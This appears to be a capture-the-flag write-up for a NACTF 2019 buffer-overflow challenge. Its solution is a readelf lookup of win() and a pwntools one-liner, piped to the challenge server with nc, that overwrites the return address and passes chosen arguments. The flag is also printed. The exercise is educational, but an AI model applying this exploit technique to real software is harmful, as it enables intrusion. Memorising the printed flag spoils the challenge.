 #### Challenge:

The close cousin of a website for "Question marked as duplicate" - part 3!

Can you control the arguments to `win()` and get the flag? `nc shell.2019.nactf.com 31184` [bufover-2.c](./bufover-2.c ":ignore") [bufover-2](./bufover-2 ":ignore")

---

#### Solution:

```bash
readelf -s ./bufover-2 | grep win
#    60: 080491c2   209 FUNC    GLOBAL DEFAULT   13 win
python -c 'import pwn;  print "A"*28 + pwn.p32(0x080491c2 ) + "A"*4 + pwn.p64(0x14B4DA55) + pwn.p32(0xF00DB4BE )' | nc shell.2019.nactf.com 31184
```

---

<details><summary>FLAG:</summary>

```
nactf{PwN_th3_4rG5_T0o_Ky3v7Ddg}
```

</details>
